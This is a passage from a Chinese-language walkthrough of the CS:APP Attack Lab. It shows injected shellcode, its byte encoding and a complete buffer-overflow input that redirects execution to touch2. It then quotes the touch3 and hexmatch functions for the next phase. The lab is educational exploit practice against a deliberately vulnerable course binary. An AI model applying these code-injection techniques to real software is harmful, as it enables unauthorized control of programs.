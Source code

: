```
mov 0x59b997fa, %edi
retq
```

它们的编码为`bf fa 97 b9 59 c3`。而第二次返回地址，即`touch2`的首地址为`0x4017ec`，因此phase2的输入构造如下：

```
bf fa 97 b9 59 c3 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
```

成功：

![[Pasted image 20240731104343.png]]

### phase3

phase3要求执行`touch3`函数：

```c
void touch3(char *sval)
{
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```

`touch3`会调用`hexmatch`函数。它要求`sval`必须是`val`的十六进制表示：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
```

与phase2不同的是，phase3要求传入一个字符串。根据分析，这个字符串必须是cookie的十六进制表示。
